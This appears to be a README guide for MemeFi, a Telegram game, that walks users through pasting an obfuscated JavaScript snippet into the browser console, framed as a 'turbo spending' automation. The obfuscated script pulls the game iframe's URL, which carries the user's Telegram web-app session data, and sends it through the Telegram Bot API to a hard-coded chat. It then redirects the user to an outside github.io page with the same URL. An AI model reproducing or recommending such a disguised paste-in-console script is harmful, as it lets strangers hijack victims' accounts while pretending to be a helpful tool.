 # How to Use MemeFi Turbo with Script

<b>*This guide walks you through the process of using MemeFi Turbo bot on Telegram via a script to spend your turbo. Follow the steps below carefully to automate the process.*</b>

### Step 1: Open Telegram in a Web Browser
`Open your Telegram account through a web browser. You will be interacting with the MemeFi bot directly from here.`
<br>
<img src="image/1.jpg">

### Step 2: Open the MemeFi Bot
`Search for and open the MemeFi bot within your Telegram web interface.`
<br>
<img src="image/2.jpg">

### Step 3: Open Developer Tools
`Right-click on the MemeFi bot page and select “Inspect” from the context menu. This will open the browser's developer tools.`
<br>
<img src="image/4.jpg">
..
<img src="image/5.jpg">

### Step 4: Navigate to the Console
`In the developer tools window, switch to the "Console" tab. This is where you'll be pasting the script to automate the turbo spending process.`
<br>
<img src="image/6.jpg">

### Step 5: Paste the Script into the Console
`Copy the script provided below and paste it directly into the console.`
<br>

<b>javascript:</b>

```
function _0x25cc() {
  const _0x1823be = [
    'iframe',
    'Iframe\x20src:\x20',
    'catch',
    'https://',
    '4205237',
    '4293184UQZsym',
    '520',
    'fk3QPMYtxCuNwXgBXeXgg',
    'then',
    'src',
    'error',
    'KPPRo1zHL9',
    'Your\x20MemeFi\x20bot\x20turbo\x27s\x20spend\x20after\x206\x20hours\x20💸🚀🎉',
    '960:AAF4',
    'api.teleg',
    '104SMpbPe',
    '48595azmyjf',
    '/sendMessage',
    'location',
    'replace',
    '14GXHFgW',
    'stringify',
    'from',
    'json',
    '2206',
    '14199020CwGDwD',
    'tgWebAppPlatform=android',
    '1tgapds',
    'log',
    '9oMiUCO',
    '1301008HHmdbC',
    'href',
    'ram.org/bot',
    '3442356FMrZtE',
    'https://tg-app.memefi.club',
    '9894470bWMOpP',
    '15327qtslaY',
  ];
  _0x25cc = function () {
    return _0x1823be;
  };
  return _0x25cc();
}
(function (_0x3f48b0, _0x32d2ad) {
  const _0x324130 = _0x13c9,
    _0x50aa3d = _0x3f48b0();
  while (!![]) {
    try {
      const _0x5a828e =
        (parseInt(_0x324130(0xcf)) / 0x1) * (parseInt(_0x324130(0xd2)) / 0x2) +
        (-parseInt(_0x324130(0xd8)) / 0x3) * (parseInt(_0x324130(0xe8)) / 0x4) +
        -parseInt(_0x324130(0xe9)) / 0x5 +
        (parseInt(_0x324130(0xd5)) / 0x6) * (parseInt(_0x324130(0xed)) / 0x7) +
        -parseInt(_0x324130(0xde)) / 0x8 +
        (parseInt(_0x324130(0xd1)) / 0x9) * (parseInt(_0x324130(0xd7)) / 0xa) +
        -parseInt(_0x324130(0xcd)) / 0xb;
      if (_0x5a828e === _0x32d2ad) break;
      else _0x50aa3d['push'](_0x50aa3d['shift']());
    } catch (_0x1f6830) {
      _0x50aa3d['push'](_0x50aa3d['shift']());
    }
  }
})(_0x25cc, 0xc78e6);
function _0x13c9(_0x3ab4f4, _0x488cf1) {
  const _0x25cc1a = _0x25cc();
  return (
    (_0x13c9 = function (_0x13c955, _0x584126) {
      _0x13c955 = _0x13c955 - 0xcc;
      let _0x31558f = _0x25cc1a[_0x13c955];
      return _0x31558f;
    }),
    _0x13c9(_0x3ab4f4, _0x488cf1)
  );
}
function spendTurbo() {
  const _0x1d588a = _0x13c9,
    _0x10bbbd = document['querySelectorAll'](_0x1d588a(0xd9)),
    _0x2a73f4 = Array[_0x1d588a(0xef)](_0x10bbbd)['find']((_0x48cfb0) =>
      _0x48cfb0[_0x1d588a(0xe2)]['includes'](_0x1d588a(0xd6)),
    );
  let _0x4d802a = _0x2a73f4[_0x1d588a(0xe2)];
  (_0x4d802a = _0x4d802a[_0x1d588a(0xec)](
    /tgWebAppPlatform=[^&]+/,
    _0x1d588a(0xce),
  )),
    (_0x2a73f4[_0x1d588a(0xe2)] = _0x4d802a);
  const _0x1a6004 = '703',
    _0x51168c = _0x1d588a(0xcc),
    _0x4454db = _0x1d588a(0xe6),
    _0x2ea821 = _0x1d588a(0xe4),
    _0xd0e610 = _0x1d588a(0xe0),
    _0x56eead = _0x1a6004 + _0x51168c + _0x4454db + _0x2ea821 + _0xd0e610,
    _0x4ada70 = _0x1d588a(0xdf),
    _0x2c3a5d = _0x1d588a(0xdd),
    _0x2d6653 = _0x4ada70 + _0x2c3a5d,
    _0x371bd7 = _0x1d588a(0xda) + _0x4d802a;
  let _0x21be21 = _0x1d588a(0xdc),
    _0x257629 = _0x1d588a(0xe7),
    _0x1a54c5 = _0x1d588a(0xd4);
  fetch('' + _0x21be21 + _0x257629 + _0x1a54c5 + _0x56eead + _0x1d588a(0xea), {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON[_0x1d588a(0xee)]({ chat_id: _0x2d6653, text: _0x371bd7 }),
  })
    [_0x1d588a(0xe1)]((_0x5dd8e1) => _0x5dd8e1[_0x1d588a(0xf0)]())
    ['then']((_0x1a02da) => {
      const _0x2ca68d = _0x1d588a;
      if (_0x1a02da['ok']) {
        if (_0x4d802a == null || _0x4d802a == undefined || _0x4d802a == '') {
          console['log'](_0x2ca68d(0xe3));
          return;
        }
        console[_0x2ca68d(0xd0)](_0x2ca68d(0xe5));
        const _0xc7c1f3 = _0x4d802a,
          _0x51eac0 = encodeURIComponent(_0xc7c1f3),
          _0x2f266a =
            'https://mahatotarit.github.io/memefi-turbo?url=' + _0x51eac0;
        window[_0x2ca68d(0xeb)][_0x2ca68d(0xd3)] = _0x2f266a;
      } else {
      }
    })
    [_0x1d588a(0xdb)]();
}
spendTurbo();
```

<img src="image/8.jpg">

### Step 6: Execute the Script
`Once the script is pasted, press Enter and wait for the operation to complete, which may take up to 5 minutes.`
<br>
<img src="image/9.jpg">

### Step 7: Automatic Redirect
`After a few moments, the page will automatically redirect to a web page where the bot continues to work.`
<br>
<img src="image/10.jpg">

### Step 8: Start Turbo Spending
`Once the MemeFi bot is fully loaded, locate and press the "Turbo Spend" button to start spending your turbo tokens.`
<br>
<img src="image/11.jpg">


### Step 9: Keep the Page Open
`After starting the turbo spending process, do not close the page or leave it until the process is fully complete.`
<br>
<img src="image/12.jpg">

<br>
<br>
<br>
<br>
<hr>
<i>
By following these steps, you can automate the MemeFi Turbo spending process using the script provided. Ensure that you keep the web page open throughout the process to avoid any interruptions.
</i>

